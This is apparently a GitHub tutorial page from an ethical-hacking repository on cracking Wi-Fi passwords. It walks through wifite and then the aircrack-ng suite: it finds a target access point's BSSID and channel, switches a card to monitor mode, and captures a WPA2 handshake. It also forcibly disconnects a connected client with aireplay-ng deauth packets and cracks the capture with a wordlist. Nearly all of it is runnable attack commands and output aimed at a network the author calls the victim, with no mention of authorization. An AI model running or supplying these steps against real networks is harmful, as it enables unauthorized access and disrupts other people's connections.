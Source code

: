 ***Before Doing This You should checkout /Basics%wireless***

# **Wifi Hacking**
1. [Using Wifite](using-wifiteeasyest)
2. [Using Aircrack-ng](using-aircrack-ng)




### **Using wifite**(easyest)

### ***Requirements***
 - [`linux`]()
 - [`wifite`]()

### **Steps**

```
wifite

```

### **POC**

![wifite](https://github.com/aruncs31s/ethical-hacking/blob/main/video/wifite.gif?raw=true)

### **Using Aircrack-ng**


#### Steps With Example
***In this Example i am going to crack the password of a wifi Access point with the name "318 2.4GHz***

#### Tools Used

```
aircrack-ng ip iw 

```


#### Steps

1. **Get the `bssid` of the target : there are multiple methods to obtain bssid and channel** 

##### **Method 1 Using iwlist**

- Open a terminal and type the following command
*You can use the following commands to obtain the bssid*
```
iwlist wlan0 scan
```
*replace the wlan0 with the wireless interface name of the one you have it maybe wlan1 if you are using a external adapter that support packet injection*

<details>

<summary> Find the interface Name ? </summary>

1. Open your terminal 
2. type `ifconfig` 
    or if you dont have ifconfig use `ip a`

</details>

![ifconfig](img/ifconfig.png)

*you can see mine is wlan0*

![ip a](./img/ip_a.png)

</details>

![iwlist wlan0](./img/iwlist_info.png)

 You can see some usefull informations like
`bssid` `essid` `channel` etc

To Crack the password we only need `channel` , `bssid` and that is 

bssid = `AE:09:74:80:CC:3E`
channe = `1`

##### **Method 2 using airodump-ng**

1. Open a terminal and type `sudo airodump-ng wlan0`

```
sudo airodump-ng wlan0
```

after running the the command you will get the following output

```
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

AE:09:74:80:CC:3E  -59       91        0    0   1  180   WPA2 CCMP   PSK  318 2.4GHz  

```



*again replace the wlan0 with your wifi interface name*

![](./img/airodum-ng_scan.png?raw=true)

We can see see that we have obtained the follwing information that we whanted

bssid   = `AE:09:74:80:CC:3E`
channel = `1`

<details>
<summary>Warning: </summary>
***You should always remember we are attacking the network named `318 2.4GHz` and that name is its `essid`

```

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

AE:09:74:80:CC:3E  -59       91        0    0   1  180   WPA2 CCMP   PSK  318 2.4GHz  

```

***the `essid` is shown at the end make sure it matches the victim's wifi name***
</details>


2. **Change You wifi card's mode from managed to monitor**

- Now stop the airodum-ng's proccess by pressing `CTRL+C`(Keyboard interrupt)
- type 

```
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

<details>
<summary>Explenation</summary>

</details>


3. **Make New directory to store `.cap` file**

for example

```
mkdir 318_capfiles
```
*you can also store the files in an existing directory but that will make a mess*


4. **Again run the airodump-ng to listen to that target** 

- type the following in you terminal

```
sudo airodump-ng -c 1--bssid AE:09:74:80:CC:3E -w /home/aruncs/Desktop/318_capfiles wlan0
```

***Change the directry name to you need to store the .cap file***

![](./img/working_dir.png?raw=true)


- after typing the command you can see a similar output like in following

![](./img/airodump_listen.png?raw=true)


*you will notice that the output is similar to that of the previous on whe we ran `sudo airodump-ng wlan0`*


5. In this stage we have to capture a hand shake
*In order to capture that some one should be alredy connected to that network*

- we waite for some one to connect
- if someone is alredy connected the we can obtain the following thing

![](./img/airodump-station.png?raw=true)

We can see that the above scree shot contains a new set of details and one of them is the `station`

station = `2C:57:31:4F:DE:E6`


6. Use aireplay-ng to send deauth requests

- open up a new terminal and type the following

```

sudo aireplay-ng -0 10 -a AE:09:74:80:CC:3E -c 2C:57:31:4F:DE:E6 wlan0

```
![](./img/deauth.png?raw=true)


- after running the aireplay-ng we will be able to capture a handshake 

![](./img/handshake.png?raw=true)

![](./img/cap_files.png?raw=true)

![](./img/capfile.png?raw=true)



7. Use the aircrack-ng to crack the captured file

- you should need a wordlist to do this step which can be obtained from [here](abc.com)


- stop the airodump-ng 


- type the following in your terminal 

```

sudo aircrack-ng -a2 -b AE:09:74:80:CC:3E -w /home/aruncs/Desktop/wordlist.txt /home/aruncs/Desktop/318_capfiles/*.cap 

```

- whoalah the password is cracked



![](./img/cracked.png?raw=true)






